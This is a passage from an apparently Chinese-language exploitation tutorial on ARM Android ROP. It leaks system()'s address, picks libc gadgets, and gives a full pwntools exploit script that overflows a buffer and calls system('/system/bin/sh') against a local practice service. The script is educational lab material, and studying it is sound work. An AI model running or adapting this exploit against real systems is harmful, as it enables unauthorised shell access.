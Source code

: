 ```

int main(int argc, char** argv) {
getsystemaddr();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}

```

这个程序会先输出system的地址，相当于我们已经获取了这个进程的内存布局了。接下来要做的就是在libc.so中寻找我们需要的gadgets和字符串地址。因为libc.so很大，我们完全不用担心找不到需要的gadgets，并且我们只需要控制一个r0即可。因此这些gadgets都能满足我们的需求：

```
0x00014f48 : ldr r0, [sp, #4] ; pop {r1, r2, r3, pc}
0x0002e404 : ldr r0, [sp, #4] ; pop {r2, r3, r4, r5, r6, pc}
0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}

```

接下来就是在libc.so中找`system()`和`"/system/bin/sh"`的位置：

![p4](http://drops.javaweb.org/uploads/images/3da89e43f63946014f94d8dfe1adf936e203e39d.jpg)

![p5](http://drops.javaweb.org/uploads/images/e319ad0c6e3cc584accee94c60422c1f53c1fb70.jpg)

可以看到地址分别为`0x000253A4`和`0x0003F9B4`。当然了，就算获取了这些地址，我们也需要根据`system()`在内存中的地址进行偏移量的计算才能够成功的找到gadgets和`"/system/bin/sh"`在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level8')
p = remote('127.0.0.1',10001)

system_addr_str = p.recvuntil('\n')
print "str:" + system_addr_str
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

p.recvuntil('\n')

#.text:000253A4                 EXPORT system

#0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
gadget1 = system_addr + (0x00034ace - 0x000253A4)
print "gadget1 = " + hex(gadget1)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
print "/system/bin/sh addr = " + hex(r0)

payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)

p.send(payload)

p.interactive()

```
